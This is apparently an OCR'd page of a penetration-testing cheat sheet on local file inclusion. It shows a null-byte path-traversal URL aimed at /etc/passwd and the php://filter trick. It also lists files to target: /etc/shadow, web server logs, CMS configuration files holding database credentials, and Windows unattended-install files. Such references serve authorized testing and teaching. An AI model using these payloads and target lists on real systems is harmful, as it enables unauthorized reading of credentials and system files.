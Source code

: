 





=================================
183


Null byte
http://website/page=../../../etc/passwd%00






php LFI/lfi
php filter LFI to get the content of a php file avoiding it to be rendered
php://filter


interesting files for LFI


• /etc/passwd
• /etc/shadow
• /etc/issue
• /etc/group
• /etc/hostname


log files


• /var/log/apache/access.log
• /var/log/apache2/access.log
• /var/log/httpd/access_log
• /var/log/apache/error.log
• /var/log/apache2/error.log
• /var/log/httpd/error_log






CMS configuration files


The following files are configuration files for popular content management systems. They usually contain sensitive information such as credentials to access the database.
• WordPress: /var/www/html/wp-config.php
• Joomla: /var/www/configuration.php
• Dolphin CMS: /var/www/html/inc/header.inc.php
• Drupal: /var/www/html/sites/default/settings.php
• Mambo: /var/www/configuration.php
• PHPNuke: /var/www/config.php
• PHPbb: /var/www/config.php




Windows
The following interesting files can (sometimes) be found on Windows systems:
• C:/Windows/System32/drivers/etc/hosts
• C:/Windows/Panther/Unattend/Unattended.xml
• C:/Windows/Panther/Unattended.xml
